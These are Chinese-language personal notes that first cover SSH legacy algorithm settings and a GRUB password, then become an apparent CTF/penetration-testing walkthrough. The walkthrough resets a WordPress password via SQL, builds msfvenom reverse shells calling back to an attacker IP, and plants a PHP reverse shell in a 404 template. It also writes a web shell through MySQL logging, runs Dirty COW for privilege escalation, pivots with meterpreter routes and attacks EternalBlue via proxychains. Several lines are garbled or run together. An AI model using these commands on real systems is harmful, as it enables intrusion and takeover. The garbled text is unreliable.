 use ip addr 192.168.1.155/24 dev eth1
ifconfig eth1 up

16.04 中包含的 OpenSSH 版本禁用 ssh-dss。有一个包含此问题的遗留信息的简洁页面：[http://www.openssh.com/legacy.html](http://www.openssh.com/legacy.html)

添加网卡：[blog.51cto.com/506554897/1742070](https://blog.51cto.com/506554897/1742070)
service network restart

简而言之，您应该将选项添加`-oHostKeyAlgorithms=+ssh-dss`到 SSH 命令中：

```
ssh -oHostKeyAlgorithms=+ssh-dss root@192.168.8.109
```

---

您还可以在您的文件中添加主机模式，`~/.ssh/config`这样您就不必每次都指定密钥算法：

```
Host nas
  HostName 192.168.8.109
  HostKeyAlgorithms=+ssh-dss
```

这样做的另一个好处是您无需键入 IP 地址。相反，`ssh`将识别主机`nas`并知道连接到哪里。当然，您可以使用任何其他名称代替。

解决办法是`ssh`命令指定算法:

```
ssh -o HostKeyAlgorithms=+ssh-rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa  user@host -p 2222
```

上面比较麻烦, 可以修改ssh配置文件 _~/.ssh/config_, 对于无法成功连接的host, 增加配置项:

~/.ssh/config

```
HostKeyAlgorithms +ssh-rsaPubkeyAcceptedKeyTypes +ssh-rsa
```

完整配置如下:

~/.ssh/config

```
Host ssh.alanwei.com  HostName ssh.alanwei.com  User alan  Port 22  HostKeyAlgorithms +ssh-rsa  PubkeyAcceptedKeyTypes +ssh-rsa
```

编辑grub配置文件#vi /etc/grub.conf
grub-crypt --md5

使用命令设置md5加密密码，复制生成的md5码

[root@localhost~]# grub-crypt --md5

Password:

Retype password:

$1$Vk/Pvw4.$i8b0feQIqez/CRInfnhcq0

```C
phpMyAdmin-4.0.0-all-languages.zip
wordpress-5.0.3-zh_CN.zip
```

# 做题
在wordpress数据库中找到wp_users表
查询： select * from 'wp_users'

update wp_users set user_pass=md5("52ctfhahaha") where user_login='eveng';

利用MSF生成反弹shell :  没有用
msfvenom -p php/meterpreter/reverse_tcp LHOST=Kali的IPLPORT=4444 -o Desktop/shell.php

利用Kali Linux自带反弹shell

root@kali:~# cat /usr/share/webshells/php/php-reverse-shell.php
复制此shell代码到404模板，修改IP为Kali地址，端口为4444

![[Pasted image 20240402153412.png]]

使用netcat，监听4444端口:nc -nlvp 4444



浏览器访问不存在的页面，触发404文件执行，例如http://靶机ip/?p=666

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=攻击机ip LPORT=8000 -f elf > shell_8000.elf
反弹shell
攻击机运行msfconsole，使用exploit/multi/handler模块，set payload linux/x86/meterpreter/reverse_tcp跟生成木马时用的payload一样。LPORT设置成木马将要连接的端口，运行后会在攻击机上监听一个端口，等待木马链接。

```C
在meterpreter会话内配置
run get_local_subnets
run autoroute -p
run autoroute -s 192.168.194.0/24

在msf内配置
route print
route add 192.168.194.0 255.255.255.0 1
```


下载到Kali桌面并进入目录，使用gcc编译gcc -pthread dirty.c-o dirty -lcrypt
下载到kali桌面并进入目录，使用GCC编译GCC-线程dity.c-o脏-lcrypt

设置为执行权限

chmod +x dirty

使用python开启http服务器

Python-m SimpleHTTPServer 80

执行dirty完成提权，
获得登录信息. ./dirty new password (任意密码)

```C
方法2(权限不够没法弄)
[blog.51cto.com/sunjikui/5994467](https://blog.51cto.com/sunjikui/5994467)
show variables like "%general_log%";
set global general_log='on';
set global general_log_file="//var//www//html//shell.php";
select "<?php system($_REQUEST[cmd]);?>"

```


auxiliary/server/socks_proxy-------------------------set SRVHOST  192.168.44.128

vim /etc/proxychains4.conf
proxychains nmap --script=vuln -sT -Pn 192.168.194.133

use windows/smb/ms17_010_eternalblue
setg Proxies socks5:192.168.44.128:1080
set ReverseAllowProxy true

psexec这个模块默认是反向连接的，我们使用了代理，要使用正向连接set payload windows/x64/meterpreter/bind_tcp
set rhost 192.168.194.133设置目标

python -c 'import pty; pty.spawn("/bin/bash")'

[内网渗透-利用frp代理流量后msf攻击内网永恒之蓝漏洞（ms17-010）-永恒之蓝利用失败的原因\_frp漏洞-CSDN博客](https://blog.csdn.net/weixin_42109829/article/details/122554815)

